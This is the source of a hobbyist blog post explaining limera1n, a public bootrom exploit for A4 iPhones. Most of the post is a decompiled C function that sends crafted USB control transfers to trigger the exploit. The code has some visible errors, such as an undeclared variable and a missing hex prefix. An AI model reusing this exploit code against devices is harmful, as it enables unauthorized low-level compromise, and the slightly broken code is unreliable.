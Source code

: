 ```yaml
---
layout: post
title: "What is limera1n?"
description: "Devices with the limera1n vulnerability are the most fun devices to play with."
category: articles
tags: [limera1n, iphone 4, info]
image:
  feature: "limera1npaper.png"
---
```


## limera1n
limera1n is a bootrom exploit found by `geohot` that works on all A4 and below devices. The last devices being the iPhone 4 GSM (1,1)(1,3) and the iPhone 4 CDMA (3,3). It is the last public bootrom exploit to be released to this day. A bootrom exploit is an exploit that can be run on a device with any iOS version. Basically meaning the device can be jailbroken for life. The reason I am talking about limera1n is because it will be mentioned often in my posts. I like to mess around with this exploit a lot and find out all of the cool stuff I can do with it. It has been made into a tethered jailbreak ([Mac](http://limera1n.com/limera1n.zip), [Windows](http://limera1n.com/limera1n.exe)) by geohot which you can untether using the `0x24000 Segment Overflow` exploit or the `Packet Filter Kernel Exploit`. 


## Code Executed
{% highlight c %}
signed int __cdecl upload_exploit() {
int device_type;
signed int payload_address;
int free_address;
int deviceerror;
char *chunk_headers_ptr;
unsigned int sent_counter;
//int v6;
signed int result; 
//signed int v8;
int recv_error_code;
signed int payload_address2;
signed int padding_size;
char payload;
char chunk_headers;
//int v14;
//v14 = *MK_FP(__GS__, 20);
device_type = *(_DWORD *)(device + 16);

if ( device_type == 8930 ) {
padding_size = 0x2A800;
payload_address = 0x8402B001;
free_address = 0x8403BF9C;
} else {
payload_address = 0x84023001;
padding_size = 0x22800;
// free_address = (((device_type == 8920) – 1) & 0xFFFFFFF4) – 0x7BFCC05C;
if(device_type == 8920) free_address = 0x84033FA4;
else free_address = 84033F98;
}

memset(&payload, 0, 0x800);
memcpy(&payload, exploit, 0x230);

if (libpois0n_debug) {
//v8 = payload_address;
fprintf(stderr, 1, "Resetting device counters\n");
//payload_address = v8;
}

payload_address2 = payload_address;
deviceerror = irecv_reset_counters(client);

if ( deviceerror ) {
irecv_strerror(deviceerror);
fprintf(stderr, 1, &aCannotFindS[12]);
result = -1;
} else {
memset(&chunk_headers, 0xCC, 0x800);
chunk_headers_ptr = &chunk_headers;

do {
*(_DWORD *)chunk_headers_ptr = 1029;       
*((_DWORD *)chunk_headers_ptr + 1) = 257;
*((_DWORD *)chunk_headers_ptr + 2) = payload_address2;  
*((_DWORD *)chunk_headers_ptr + 3) = free_address;
chunk_headers_ptr += 64;
} while ((int *)chunk_headers_ptr != &v14);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending chunk headers\n");

sent_counter = 0;
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
memset(&chunk_headers, 0xCC, 0x800);

do {
sent_counter += 0x800;
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
} while (sent_counter < padding_size);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending exploit payload\n");

irecv_control_transfer(client, 0x21, 1, 0, 0, &payload, 0x800);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending fake data\n");

memset(&chunk_headers, 0xBB, 0x800);
irecv_control_transfer(client, 0xA1, 1, 0, 0, &chunk_headers, 0x800);
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);

if (libpois0n_debug)
fprintf(stderr, 1, "Executing exploit\n");

irecv_control_transfer(client, 0x21, 2, 0, 0, &chunk_headers, 0);
irecv_reset(client);
irecv_finish_transfer(client);

if (libpois0n_debug) {
fprintf(stderr, 1, "Exploit sent\n");
if (libpois0n_debug)
fprintf(stderr, 1, "Reconnecting to device\n");
}

client = (void *)irecv_reconnect(client, 2);

if (client) {
result = 0;
} else {
if (libpois0n_debug) {
recv_error_code = irecv_strerror(0);
fprintf(stderr, 1, &aCannotFindS[12], recv_error_code);
}
fprintf(stderr, 1, "Unable to reconnect\n");
result = -1;
}
}

// compiler stack check
//if (*MK_FP(__GS__, 20) != v14)
//    __stack_chk_fail(v6, *MK_FP(__GS__, 20) ^ v14);

return result;
}
{% endhighlight %}

## limera1n For Newer Devices
As of now there are no *public* bootrom exploits for any newer devices. [iH8sn0w](https://twitter.com/iH8sn0w/) has found a bootrom exploit for A5 and A5X devices, but has not shared it publicly. He has not done this because he says that with just a bit of tweaking he can make it work on newer devices (A5+). If he were to release it anytime soon, Apple is in a position to release a newer model of a device without any problem, effectivly patching it on half of the devices the bootrom exploit would work on.

->-dayt0n<-

